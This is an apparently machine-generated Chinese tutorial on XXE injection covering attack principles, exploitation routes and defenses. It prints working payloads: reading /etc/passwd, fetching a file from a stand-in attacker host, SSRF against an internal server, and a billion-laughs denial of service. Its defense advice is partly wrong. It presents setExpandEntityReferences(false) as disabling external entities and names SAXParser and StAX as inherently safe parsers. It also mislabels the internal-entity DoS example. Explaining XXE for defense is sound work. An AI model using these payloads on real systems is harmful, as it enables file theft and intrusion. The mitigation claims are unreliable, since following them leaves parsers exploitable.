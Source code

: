 ### XXE外部实体注入攻击技术详解

#### 1. 概述
XXE（XML External Entity）外部实体注入是一种针对XML解析器的安全漏洞，攻击者通过构造恶意的XML文档，利用外部实体引用功能，实现对目标系统的攻击。XXE漏洞通常出现在处理XML数据的Web应用程序中，攻击者可以利用该漏洞读取服务器上的敏感文件、执行远程请求、甚至进行服务器端请求伪造（SSRF）等攻击。

#### 2. 攻击原理
XXE攻击的核心在于利用XML解析器对外部实体的支持。XML文档可以定义外部实体，这些实体可以引用外部资源（如文件、URL等）。当XML解析器解析包含外部实体的文档时，会尝试加载并解析这些外部资源。如果应用程序未对用户输入的XML数据进行严格的验证和过滤，攻击者可以通过构造恶意的XML文档，利用外部实体引用功能，实现对目标系统的攻击。

#### 3. 常见攻击手法

##### 3.1 文件读取
攻击者可以通过构造包含外部实体的XML文档，读取服务器上的敏感文件。例如，攻击者可以构造如下XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

当XML解析器解析该文档时，会尝试加载并解析外部实体`xxe`，从而读取服务器上的`/etc/passwd`文件，并将文件内容返回给攻击者。

##### 3.2 远程请求
攻击者可以通过构造包含外部实体的XML文档，向远程服务器发送请求，获取远程资源。例如，攻击者可以构造如下XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/evil.xml">
]>
<foo>&xxe;</foo>
```

当XML解析器解析该文档时，会尝试加载并解析外部实体`xxe`，从而向`http://attacker.com/evil.xml`发送请求，获取远程资源。

##### 3.3 服务器端请求伪造（SSRF）
攻击者可以通过构造包含外部实体的XML文档，利用服务器端请求伪造（SSRF）攻击，访问内部网络资源。例如，攻击者可以构造如下XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-server/secret">
]>
<foo>&xxe;</foo>
```

当XML解析器解析该文档时，会尝试加载并解析外部实体`xxe`，从而向内部服务器`http://internal-server/secret`发送请求，获取内部资源。

##### 3.4 拒绝服务攻击（DoS）
攻击者可以通过构造包含大量外部实体的XML文档，导致XML解析器在处理文档时消耗大量资源，从而引发拒绝服务攻击（DoS）。例如，攻击者可以构造如下XML文档：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe1 "xxe1">
  <!ENTITY xxe2 "&xxe1;&xxe1;">
  <!ENTITY xxe3 "&xxe2;&xxe2;">
  ...
  <!ENTITY xxe100 "&xxe99;&xxe99;">
]>
<foo>&xxe100;</foo>
```

当XML解析器解析该文档时，会尝试加载并解析外部实体`xxe100`，从而导致解析器在处理文档时消耗大量资源，引发拒绝服务攻击。

#### 4. 利用方式

##### 4.1 直接利用
攻击者可以直接将恶意构造的XML文档提交给目标应用程序，利用XXE漏洞进行攻击。例如，攻击者可以通过Web表单、API接口等方式提交恶意XML文档，触发XXE漏洞。

##### 4.2 间接利用
攻击者可以通过间接方式利用XXE漏洞进行攻击。例如，攻击者可以通过上传恶意XML文件、利用XML文件解析功能等方式，触发XXE漏洞。

##### 4.3 结合其他漏洞
攻击者可以将XXE漏洞与其他漏洞结合，进行更复杂的攻击。例如，攻击者可以将XXE漏洞与SSRF漏洞结合，利用XXE漏洞进行SSRF攻击，访问内部网络资源。

#### 5. 防御措施

##### 5.1 禁用外部实体
在XML解析器中禁用外部实体引用功能，可以有效防止XXE攻击。例如，在Java中，可以通过设置`DocumentBuilderFactory`的`setExpandEntityReferences(false)`方法来禁用外部实体引用。

##### 5.2 输入验证和过滤
对用户输入的XML数据进行严格的验证和过滤，可以有效防止XXE攻击。例如，可以通过白名单机制，限制XML文档中允许使用的实体和属性。

##### 5.3 使用安全的XML解析器
使用安全的XML解析器，可以有效防止XXE攻击。例如，可以使用`SAXParser`或`StAXParser`等安全的XML解析器，避免使用不安全的`DocumentBuilder`解析器。

##### 5.4 限制文件访问权限
限制XML解析器对文件系统的访问权限，可以有效防止XXE攻击。例如，可以通过设置文件系统的访问控制列表（ACL），限制XML解析器对敏感文件的访问。

##### 5.5 监控和日志记录
对XML解析器的操作进行监控和日志记录，可以有效发现和防止XXE攻击。例如，可以通过日志记录XML解析器的操作，及时发现异常行为。

#### 6. 总结
XXE外部实体注入是一种严重的安全漏洞，攻击者可以通过构造恶意的XML文档，利用外部实体引用功能，实现对目标系统的攻击。为了防止XXE攻击，开发人员应采取有效的防御措施，如禁用外部实体、输入验证和过滤、使用安全的XML解析器等。通过采取这些措施，可以有效防止XXE攻击，保护Web应用程序的安全。

---

*文档生成时间: 2025-03-11 13:07:36*






















